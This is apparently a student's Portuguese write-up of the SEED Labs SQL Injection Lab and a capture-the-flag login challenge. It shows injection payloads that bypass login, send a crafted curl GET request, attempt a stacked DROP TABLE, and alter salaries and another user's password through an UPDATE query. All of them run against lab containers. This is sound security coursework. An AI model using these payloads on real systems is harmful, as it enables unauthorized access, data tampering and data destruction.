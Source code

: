 # Semana 8

## SEED Labs - SQL Injection Lab

### Task 1

Na primeira tarefa, fomos encarregados de apresentar todas as informações para o usuário "Alice". Para alcançar esse objetivo, acessamos o contêiner MySQL utilizando o comando ```docksh c7```. Em seguida, executamos os comandos ```mysql -u root -pdees``` para entrar no MySQL como superusuário e ```sqllab_users``` de forma a selecionar o schema.

Ao analisar o conteúdo do arquivo ```sqllab_users.sql```, identificamos o comando correto para extrair as informações desejadas:

    SELECT * FROM `credential` WHERE Name = "Alice";

Assim obtivemos os dados da Alice:

![image](assets/s8i1.png)

### Task 2

#### Task 2.1

Ao examinar o site fornecido pelo Docker e o arquivo unsafe_home.php, notamos que a consulta apresenta uma vulnerabilidade. Isso ocorre porque o servidor gera dinamicamente o comando SQL usando strings não sanitizadas provenientes da entrada do usuário. Essa prática torna a aplicação suscetível a ataques de injeção de SQL:

    SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password FROM credential WHERE name='$input_uname' and Password='$hashed_pwd'

Aproveitando o fato de que o campo de senha é criptografado, é possível explorar a funcionalidade de pesquisa manipulando apenas o campo de nome de usuário. Ao inserir 'admin'# como entrada, garantimos acesso privilegiado, pois a verificação da chave de acesso se torna irrelevante ao ser comentada. Com isso, o código executado no lado do servidor é modificado da seguinte maneira:

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’

Portanto, conforme planejado, conseguimos efetuar login com a conta de administrador, abrindo a possibilidade de obter todos os dados dos usuários no aplicativo:

![image](assets/s8i2.png)

#### Task 2.2

Nesta tarefa, executei um ataque por meio de uma solicitação GET. Para obter todo o código HTML da página, incluindo todas as informações dos usuários, utilizei o seguinte comando malicioso:

    curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="

Como esperado o resultado foi o seguinte:

![image](assets/s8i3.png)

![image](assets/s8i4.png)

#### Task 2.3

Através do SQL, é possível utilizar ```;``` para inserir novos comandos. Ao empregar essa funcionalidade, busquei causar um efeito colateral no servidor. O comando utilizado foi o seguinte:

    admin'; DROP TABLE IF EXISTS admin; #

No entanto, esta operação não foi executada devido a um erro na base de dados. A extensão MySQL utilizada pelo PHP no servidor possui uma salvaguarda que impede a execução de várias consultas simultâneas, o que resultou na impossibilidade de concluir o ataque:

![image](assets/s8i5.png)

### Task 3

#### Task 3.1

Após efetuar o login com uma conta do sistema (username: Alice e password: seedalice), obtivemos acesso a uma página destinada à edição de informações pessoais. Essa página é gerenciada pelo arquivo fornecido ```unsafe_edit_backend.php```, que contém uma consulta construída dinamicamente com strings não sanitizadas provenientes da entrada do usuário. Nosso ataque envolve a manipulação do número de telefone. Utilizando a mesma técnica dos tópicos anteriores, conseguimos criar o seguinte código capaz de manipular o salário do usuário:

    960000000' ,Salary =' 56565656

![image](assets/s8i6.png)

É crucial notar que a aspas simples (') antes do valor do salário é fundamental para concluir a última instrução antes do WHERE. Em última análise, o servidor executou o seguinte código:

    UPDATE credential SET
    nickname= '$input_nickname', 
    email='$input_email', 
    address='$input_address',
    Password='$hashed_pwd',
    PhoneNumber='960000000',Salary='56565656' WHERE ID=$id;

Como esperado o salário foi modificado como o esperado:

![image](assets/s8i7.png)

### Task 3.2

Para alterar o valor do salário de outro usuário, utilizamos uma técnica semelhante à anterior. No entanto, criamos uma cláusula WHERE diferente e comentamos a existente no sistema para evitar interferências na pesquisa:
    
    960000000' ,Salary='0' WHERE Name='Boby'#

![image](assets/s8i8.png)

Com esta entrada, o servidor executou o seguinte código:

    UPDATE credential SET
    nickname= '$input_nickname', 
    email='$input_email', 
    address= '$input_address', 
    Password='$hashed_pwd',
    PhoneNumber='960000000', Salary='0' WHERE Name= 'Boby'# WHERE ID=$id;

Aqui podemos observar o valor de salário de Boby após o ataque:

![image](assets/s8i9.png)

#### Task 3.3

Para modificar a senha de outro usuário, aplicamos uma abordagem semelhante à anterior. No entanto, desta vez, o valor a ser alterado foi previamente criptografado com SHA1. Por exemplo, para a nova senha "segurança", o hash correspondente é 5a5f1484546b0f83f9e9166d6222e2e9743c037d.

    960000000', password='5a5f1484546b0f83f9e9166d6222e2e9743c037d' WHERE name='Boby'#

![image](assets/s8i10.png)

Com esta entrada, o servidor executou o seguinte código:

    UPDATE credential SET|
    nickname='$input_nickname', 
    email='$input_email', 
    address='$input_address', 
    Password='$hashed_pwd',
    PhoneNumber='960000000', password='5a5f1484546b0f83f9e9166d6222e2e9743c037d' WHERE name='Boby'# WHERE ID=$id;

Assim, ao utilizarmos a nova senha para Boby, conseguimos entrar na conta dele:

![image](assets/s8i11.png)

## CTF - SQL Injection

O objetivo deste CTF era obter acesso à flag devido à vulnerabilidade existente na validação do login.

Ao analisar o ficheiro ```index.php``` foi possível verificar que a query executada para cada tentativa de login é a seguinte query.
```sql
    $username = $_POST['username'];
    $password = $_POST['password']; 
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Como a validação é feita diretamente com os valores inseridos pelo utilizador, é possível explorar a vulnerabilidade de SQL Injection. Para tal, basta inserir o seguinte no campo de username e password.
```sql
    admin'--
    password
```

Ao introduzir ```admin'--``` como username, a query executada será a seguinte,

```sql
    SELECT username FROM user WHERE username = 'admin'--' AND password = 'password'
```

comentado o resto da query possibilitando fazer login com o utilizador admin, sem necessitar de saber a password.

![Login](assets/s8i12.png)


Obtendo assim a flag. 

![Flag](assets/s8i13.png)
